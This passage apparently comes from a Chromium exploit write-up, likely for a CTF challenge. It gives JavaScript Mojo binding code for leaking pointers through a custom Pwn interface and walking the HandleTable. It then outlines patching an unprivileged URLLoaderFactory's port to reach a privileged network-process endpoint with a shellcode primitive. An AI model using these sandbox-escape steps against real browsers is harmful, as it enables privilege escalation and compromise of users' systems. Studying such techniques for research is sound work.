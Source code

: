 Now similarly there exists another global object: `Core`. In this we can find
the `HandleTable`, a mapping from all active handles to their Ports. We parse
this table to get the remote port identifier of the privileged
URLLoaderFactory, which lives in the network process.

We can use javascript bindings to connect to the Pwn interface:

```javascript
let pwnPtr  = new content.mojom.PwnPtr;
let pwnReq  = new mojo.makeRequest(pwnPtr);
Mojo.bindInterface(content.mojom.Pwn.name, pwnReq.handle, "process");
```

Then call the methods on `pwnPtr` to implement the leak:

```javascript
await pwnPtr.ptrAt(ptr).then(val  => { return val.val; });
await pwnPtr.this().then(ptr => { return ptr.val; });
```

We can then get the handle by translating the above pointer walk into offsets
and walking the HandleTable.

## Patching an unprivileged URLLoaderFactory

We can create a new URLLoaderFactory in the renderer:

```javascript
let UrlLoaderPtr = new network.mojom.URLLoaderPtr;
let UrlLoaderReq = mojo.makeRequest(UrlLoaderPtr);

let UrlLoaderClientPtr = new network.mojom.URLLoaderClientPtr;
let UrlLoaderClientReq = mojo.makeRequest(UrlLoaderClientPtr);

let UrlLoaderFactoryPtr = new network.mojom.URLLoaderFactoryPtr();
let UrlLoaderFactoryReq = mojo.makeRequest(UrlLoaderFactoryPtr);
// Create an UrlLoader and connect it to the browser
Mojo.bindInterface(network.mojom.URLLoaderFactory.name,
    UrlLoaderFactoryReq.handle, "process");
```

This asks the Browser process to set us up with a new connection to an
URLLoaderFactory. This URLLoaderFactory lives in the network process. However
this is an unprivileged endpoint. To connect to the privileged endpoint we will
need to use the shellcode primitive to patch memory.

1. Find the handle of the URLLoaderFactory
2. Lookup the handle to find the Dispatcher, which includes the peer port of
   this Mojo connection. Then patch in the new port names we got earlier.

Note that from the shellcode we can access the backing storage of the array
buffer, so it's easy to get data in and out of the shellcode

For the first step: before creating the URLLoaderFactory parse all the active
handles in the HandleTable. Then create and bind the URLLoaderFactory and then
parse the handles again.  There should then be one new handle, this one belongs
to the URLLoaderFactory.
